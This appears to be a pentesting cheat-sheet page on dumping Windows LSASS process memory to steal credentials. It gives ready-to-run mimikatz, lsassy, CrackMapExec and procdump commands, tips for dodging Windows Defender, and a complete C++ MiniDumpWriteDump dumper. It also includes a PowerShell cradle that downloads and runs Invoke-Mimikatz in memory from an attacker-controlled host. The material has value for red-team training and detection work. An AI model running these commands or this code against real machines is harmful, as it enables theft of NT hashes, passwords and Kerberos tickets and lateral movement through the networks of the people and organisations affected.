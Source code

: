 # LSASS Memory

## Theory

`lsass.exe` is the process responsible for enforcing security policy on Windows systems. When a user attempts to log on to the system, this process verifies their login attempt and creates access tokens based on the user's permission levels. LSASS is also responsible for password changes to user accounts. All events associated with this process (login/logout attempts, etc.) are logged in the Windows security log. LSASS is a valuable target, as there are several tools available to extract both clear text and hashed credentials stored in memory by this process.

From this process, you can extract **NT hashes and passwords**, obtain **Kerberos keys** and retrieve **Kerberos tickets** stored on the machine.

## Practical

{% tabs %}
{% tab title="mimikatz" %}
Extracts NT hashes and passwords. There is also a section called "wdigest", which was a feature of Windows 7 and earlier, where passwords were displayed in plaintext:

```bash
# Local. Extract credentials from lsass.exe:
sekurlsa::logonpasswords
Invoke-Mimikatz -DumpCreds # -DumpCreds = sekurlsa::logonpasswords
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
powershell IEX(New-Object Net.WebClient).downloadString('http://<LHOST>/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds # In memory.
# Remote. Analyze a memory dump:
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

You can also use a special version of mimikatz called mimilove (Windows 2000 only).
{% endtab %}

{% tab title="lsassy" %}
`lsassy.py` is a tool (part of CrackMapExec) that allows you to extract the credentials of the lsass.exe process remotely. It has several methods of dumping, authentication, usage, etc.:

```bash
# With plaintext credentials
lsassy.py -d <DOMAIN> -u <USER> -H <HASH> <TARGET>

# With Pass-The-Hash:
lsassy.py -u <USER> -H <HASH> <TARGET>

# With Pass The Ticket (remember to export the variable KRB5CCNAME):
lsassy -k <TARGET>

# With the CrackMapExec module:
## If there are logged in users, we can dumpear their hashes with -M lssasy:
crackmapexec smb <TARGET> -u <USER> -p <PASS> [-d <DOMAIN>] --loggedon-users
## With plaintext credentials:
crackmapexec smb <TARGET> -u <USER> -p <PASS> [-d <DOMAIN>] -M lssasy
## With Pass-The-Hash:
crackmapexec smb <TARGET> -d <DOMAIN> -u <USER> -H <HASH> -M lsassy [-o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=passneo4j]
## With Pass-The-Ticket (remember to export the variable KRB5CCNAME):
crackmapexec smb <TARGET> -k -M lsassy [-o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=passneo4j] 
```

### References:

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords" %}
{% endtab %}

{% tab title="procdump" %}
We can dump the lsass.exe process with the SysInternals [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) tool:

{% hint style="info" %}
It is recommended to indicate the lsass.exe process by its ID/PID. Windows Defender considers downloading lsass to be a suspicious activity. When the dump process finishes, Windows Defender deletes the dump after a few seconds. However, by providing you with the PID of the lsass, Windows Defender no longer complains.
{% endhint %}

```bash
# 1. Get the running lsass.exe process with its ID/PID:
tasklist /fi "imagename eq lsass.exe"
Get-Process | where {$_.ProcessName -like "lsass"} | ft ProcessName, Id
# 2. Dump everything (memory and process) of a given process from its PID/ID or its name:
procdump64.exe /accepteula -ma <ID> <NAME>.dmp # Recommended.
procdump64.exe /accepteula -ma <ProccessName> <NAME>.dmp # Not recommended (not stealthy).
procdump64.exe -accepteula -r -ma <ProccessName> <NAME>.dmp # Avoid reading lsass by dumping a cloned lsass process.
```

Then, to read the dumpeted file, we can use pypykayz or mimikatz.
{% endtab %}

{% tab title="Manual" %}
Suppose we cannot load the tools on the target for whatever reason but we have **RDP access**. In that case, we can do a manual memory dump of the LSASS process through the **Task Manager** by navigating to the **Details tab**, choosing the LSASS process and selecting "**Create dump file**". After downloading this file back to our attack system, we can process it using Mimikatz or pypykatz.

![](../../../.gitbook/assets/LSASS\_Manual.png)
{% endtab %}

{% tab title="pypykatz" %}
Pypykatz (Python) can be used to analyze a memory dump:

```bash
pypykatz lsa minidump <LSASS>.dmp
```
{% endtab %}

{% tab title="MiniDumpWriteDump" %}
Write a simple lsass process dump using the MiniDumpWriteDump API. Dumps of lsass processes created with MiniDumpWriteDump can be uploaded to mimikatz offline, where credential materials could be extracted.

{% hint style="info" %}
Of course, there is Sysinternal's `procdump` which does the same thing and is not flagged by Windows Defender, but it's always good to know that there are alternatives you can turn to if you need it for any reason.
{% endhint %}

{% code title="CreateMiniDump.exe" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;
int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	// Open a handle to lsass.dmp - this is where the minidump file will be saved to
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	// Find lsass PID	
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";
	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	// Open handle to lsass.exe process
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	
	// Create minidump
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
{% endcode %}

We run it and then analyze it with mimikatz or pypykatz.
{% endtab %}
{% endtabs %}

The credentials obtained could be plaintext passwords or an NT hash, which can lead to various attacks such as Pass-The-Hash, Overpass-the-Hash, etc.
